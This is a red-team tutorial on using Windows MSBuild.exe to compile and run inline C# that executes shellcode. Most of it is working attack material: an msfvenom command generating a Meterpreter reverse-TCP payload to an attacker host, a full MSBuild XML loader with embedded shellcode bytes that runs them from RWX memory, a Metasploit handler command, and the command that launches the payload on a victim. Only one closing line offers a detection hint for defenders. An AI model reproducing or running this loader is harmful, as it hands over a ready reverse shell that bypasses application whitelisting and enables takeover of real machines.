

# Using MSBuild to Execute Shellcode in C\#

It's possible to use a native windows binary MSBuild.exe to compile and execute inline C\# code stored in an xml as discovered by [Casey Smith](https://twitter.com/subTee).

## Execution

Generate meterpreter shellode in c\#:


```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f csharp
```




Insert shellcode into the shellcode variable in linne 46:


```markup
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
         <!-- This inline task executes shellcode. -->
         <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
         <!-- Save This File And Execute The Above Command -->
         <!-- Author: Casey Smith, Twitter: @subTee -->
         <!-- License: BSD 3-Clause -->
	  <Target Name="Hello">
	    <ClassExample />
	  </Target>
	  <UsingTask
	    TaskName="ClassExample"
	    TaskFactory="CodeTaskFactory"
	    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
	    <Task>
	    
	      <Code Type="Class" Language="cs">
	      <![CDATA[
		using System;
		using System.Runtime.InteropServices;
		using Microsoft.Build.Framework;
		using Microsoft.Build.Utilities;
		public class ClassExample :  Task, ITask
		{         
		  private static UInt32 MEM_COMMIT = 0x1000;          
		  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
		  [DllImport("kernel32")]
		    private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
		    UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
		  [DllImport("kernel32")]
		    private static extern IntPtr CreateThread(            
		    UInt32 lpThreadAttributes,
		    UInt32 dwStackSize,
		    UInt32 lpStartAddress,
		    IntPtr param,
		    UInt32 dwCreationFlags,
		    ref UInt32 lpThreadId           
		    );
		  [DllImport("kernel32")]
		    private static extern UInt32 WaitForSingleObject(           
		    IntPtr hHandle,
		    UInt32 dwMilliseconds
		    );          
		  public override bool Execute()
		  {
			//replace with your own shellcode
		    byte[] shellcode = new byte[] { 0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,0x68,0x0a,0x00,0x00,0x05,0x68,0x02,0x00,0x01,0xbb,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,0x75,0xec,0xe8,0x67,0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,0x56,0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x68,0x00,0x40,0x00,0x00,0x6a,0x00,0x50,0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 };
		      
		      UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
			MEM_COMMIT, PAGE_EXECUTE_READWRITE);
		      Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
		      IntPtr hThread = IntPtr.Zero;
		      UInt32 threadId = 0;
		      IntPtr pinfo = IntPtr.Zero;
		      hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
		      WaitForSingleObject(hThread, 0xFFFFFFFF);
		      return true;
		  } 
		}     
	      ]]>
	      </Code>
	    </Task>
	  </UsingTask>
	</Project>
```



Spin up a handler in metasploit to catch your shell:


```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```


Build and execute malicious payload on the victim system using MSBuild:


```csharp
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\bad\bad.xml
```



## Observation

Note that it's MSBuild.exe that will make the TCP connection to the attacker, so as a defender, you should think about hunting for TCP connections initiated by MSBuild.

## References

[https://gist.github.com/ConsciousHacker/5fce0343f29085cd9fba466974e43f17](https://gist.github.com/ConsciousHacker/5fce0343f29085cd9fba466974e43f17)


